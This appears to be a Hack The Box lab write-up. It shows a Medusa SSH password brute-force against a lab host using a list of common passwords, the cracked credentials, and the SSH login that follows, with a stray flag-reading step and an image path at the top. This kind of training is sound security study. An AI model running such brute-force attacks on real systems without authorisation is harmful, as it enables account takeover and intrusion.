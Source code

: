 Then read the file to get the flag:

```shell-session
smoothment@htb[/htb]$ cat flag.txt
HTB{...}
```

# Questions
---

![](../images/Pasted%20image%2020250213152556.png)

Let's begin by launching the default medusa scan:

```
medusa -h 94.237.54.164 -n 59668 -u sshuser -P 2023-200_most_used_passwords.txt -M ssh -t 3
```


After a while, we get the following:

```
 Password: 987654321 (43 of 200 complete)
ACCOUNT CHECK: [ssh] Host: 94.237.54.164 (1 of 1, 0 complete) User: sshuser (1 of 1, 0 complete) Password: demo (44 of 200 complete)
ACCOUNT CHECK: [ssh] Host: 94.237.54.164 (1 of 1, 0 complete) User: sshuser (1 of 1, 0 complete) Password: 12341234 (45 of 200 complete)
ACCOUNT CHECK: [ssh] Host: 94.237.54.164 (1 of 1, 0 complete) User: sshuser (1 of 1, 0 complete) Password: 1q2w3e4r5t (46 of 200 complete)
ACCOUNT FOUND: [ssh] Host: 94.237.54.164 User: sshuser Password: 1q2w3e4r5t [SUCCESS]
```


We got credentials for ssh:

```
`sshuser`:`1q2w3e4r5t`
```

Let's log into ssh:

```
ssh sshuser@94.237.54.164 -p 59668
sshuser@94.237.54.164's password:
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.1.0-10-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Thu Feb 13 20:32:53 2025 from 10.30.18.26
sshuser@ng-1340293-loginbfservice-amvfj-8678d96dc8-r66vm:~$
```
